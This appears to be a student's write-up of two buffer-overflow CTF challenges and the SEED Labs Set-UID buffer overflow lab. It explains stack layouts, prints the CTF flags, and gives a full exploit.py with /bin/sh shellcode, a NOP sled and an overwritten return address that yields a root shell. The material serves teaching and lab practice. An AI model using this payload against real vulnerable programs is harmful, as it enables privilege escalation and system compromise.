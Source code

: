 # CTF

## Challenge 1

### Recon

- We identified the security properties of the given program, with the help of the `checksec` tool.
- There was no canary protecting the return address, and the stack has execution permission.

### Vulnerability

The program read a file (`mem.txt`), and in order to get the flag, we needed to change which file the program read. The path to the file was kept in the variable `meme_file`. The only moment in the execution of the program in which the user intervenes is when he gets to give a text input, that will be kept in a 20 byte buffer.

We understood the vulnerability would be connected to said buffer, and could be exploited by creating a buffer overflow. If we wrote more than 20 characters, a buffer overflow would occur. We knew we could write on the stack and change other variables, and we knew `meme_file` was next to the `buffer` on the stack. So in order to access `flag.txt` we sent as the input something like "[20 characters to fill the buffer]flag.txt". This changed the variable `meme_file` to "flag.txt" and we found the flag - `flag{8df95b4dbd7681ec6e6688826ae6fd12}`.

## Challenge 2

### Recon

- Just like before, we identified the security properties of the given program, with the help of the `checksec` tool.
- There was no canary protecting the return address and the stack has execution permission, once again.

### Vulnerability

The difference this time in the program, was a new variable, `val`, an array of 4 characters. The program would only open the text file if the condition `*(long*)val == 0xfefc2122` was met.

We identified the same opportunity to create a buffer overflow, except this time the variables were in the following order in the stack: `buffer`->`val`->`meme_file`. So we used the Python script to send the input "[20 characters to fill the buffer][0x22][0x21][0xfc][0xfe]flag.txt". This way the condition was met, and we changed the variable `meme_file` to "flag.txt", just like in the first challenge. Doing this, we found the flag - `flag{031964c904407b7f31a925abe31d5d1f}`.

# SEED Labs

## Buffer Overflow Attack Lab (Set-UID Version)

### Task 1: Getting Familiar with Shellcode

- We were able to understand the shellcode and run the generated 32 bit binary that executed the shellcode.
- A shell was launched when executing the binary, as expected.

### Task 2: Understanding the Vulnerable Program

- We understood how the program had a buffer overflow vulnerability, since it was copying a 517 bytes buffer to a 100 bytes one. This opens the possibility to get a root shell.
- By using the `make` command, we compiled the vulnerable program with flags for turning off StackGuard and the non-executable stack protections and set it as a root owned Set-UID program.

### Task 3: Launching Attack on 32-bit Program (Level 1)

To find the difference between the buffer's starting and the place where the return address is stored, we created a file named 'badfile' and launched gdb on the vulnerable program, registering the ebp and buffer address (`0xffffca48` and `0xffffc9dc`, respectively) after the function `bof` is called. By calculating the difference between the addresses, we find that these are 108 bytes apart.

Next, we needed to generate the contents of the 'badfile' with the shellcode and a precisely placed return address that would overwrite the `bof`'s function return address in the stack and lead the program to run the shellcode. For that, by using the provided `exploit.py` file, we crated a 'badfile' of 517 bytes (the size of the `str` buffer) filled with NOP instructions (0x90) and the shellcode at the end. Since the ebp address was 108 bytes away from the starting address of the buffer, and the return address comes before ebp, we placed a return address on byte 112 (108 + address size of 4 bytes) of the 'badfile'. This return address was the buffer address plus 300, which would give us an address of one of the NOP instructions. By doing that, the program would return from the `bof` function to a NOP sled, that would lead it to run the shellcode. By running the program, we successfully got a shell.

This was the resulting `exploit.py` file:

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) - 1 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffc9dc + 300
offset = 112

L = 4     # 32-bit address size
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```


